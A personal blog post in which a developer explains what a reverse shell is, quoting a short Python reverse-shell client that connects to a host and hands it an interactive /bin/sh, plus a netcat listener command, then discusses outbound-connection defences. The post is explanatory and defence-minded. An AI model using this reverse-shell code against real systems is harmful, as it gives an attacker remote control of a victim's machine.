



Boo! I'm still alive and back with some late spooky content.

A few months ago, I had heard about the concept of a reverse shell from a colleague who was recounting how one of his interns almost got fired for spawning one on corporate infrastructure. At the time, I had chalked up reverse shells as some sort of advanced hacker thing that was too infosec for me, a lowly software developer, to understand.

Come some more months later and my grandma comes to visit the US. She loves action movies, so one of the nights she's here, I end up finding myself forced into watching *[Jason Bourne](https://en.wikipedia.org/wiki/Jason_Bourne_(film))*, the 5th movie in series of films I had watched only the first of.

Naturally, I have no idea what's happening and am disinterested in watching the movie. However, as I'm playing video games and half-listening to the TV, I suddenly hear one of the characters mutter a familiar term:

"Reverse shell"

Okay fine, Hollywood. If you're confident enough to put this lingo into a movie, then I guess I should be confident enough to figure out what in the world it is.

## What in the World is a Reverse Shell?

Reverse shells are similar to normal shells except for the direction and resource that they provide access for.

Typically, a user wants to get a shell into a remote host. They do this by connecting to the remote host and spawning a shell session on it (usually via SSH). The user is then able to interact from their local machine to the remote host via the spawned session. 



In a reverse shell, the direction and target resource are reversed. The user spawns a shell on their local machine and then makes a connection for it to the remote host. The remote host can then interact with the shell on the user's local machine.



## An Example

I wanted to understand how it worked practically and ended up finding a simple Python client example from [an article on this website](https://www.imperva.com/learn/application-security/reverse-shell/):

```python
# Taken from: https://www.imperva.com/learn/application-security/reverse-shell/

import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("0.0.0.0", 7777))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

p = subprocess.call(["/bin/sh", "-i"])
```

The code is alarmingly simple. It makes a connection to a server on a port (7777 in this case); connects the STDIN, STDOUT, STDERR file descriptors all to the connection; and then spawns a shell.

On a server, one can then run something like netcat to listen on the same port:

```bash
nc -nvl 7777
```

Once the client connects, netcat will display STDOUT and STDERR and allow for shell commands to be written to STDIN.



## So What?

Why make such a big deal out of this? The issue with reverse shells is that they flip a basic security assumption on its head. Usually, we assume that attackers are outside of a system trying to get in. Because of this, we only focus on protecting the ways actors can access a remote system (ex. setting up inbound firewall rules to block port 22 so no one can SSH into the machine).

However, with a reverse shell, these same protections don't work anymore because the cause of the issue is from within the system. While an attacker still has to get the code that spawns the reverse shell onto the target, it is technically the target that spawns the shell and gives unfettered control of the target away to the attacker. This is much harder to guard against beforehand.

While with a server, one could potentially protect it by setting up outbound firewall rules, this can become a hassle to deal with (especially if you don't fully know what other servers your server needs to talk to).

More difficult perhaps is trying to protect a personal device, like a laptop or phone, from this. There's no definitive set of URLs that a person will access when they using their device. Moreover, a personal device will almost certainly be filled with sensitive information about its user and the people they know, such as financial information, credentials, or personal data, making it a valuable target.

## Conclusion

While a somewhat spooky experience, learning about reverse shells felt useful and eye-opening for me.

Recently, the [Claude Code extension on the Cursor marketplace had an incident making use of reverse shells](https://cursor.com/blog/claude-code-extension-security-notice). Seeing the news really drove home the idea for me that this is something that really can affect real people and not just a theoretical attack that only exists in a toy setting.

At the same time, I feel like I gained a bit more insight into network security overall. I had always written off protecting outbound connections as extraneous before since I was only focused on how an attacker could get into a system. Now I realize that protecting against threats from inside is equally if not even more important.

But that's all for now. Hopefully I will have more to write about in the coming year than I did this one. Until next time!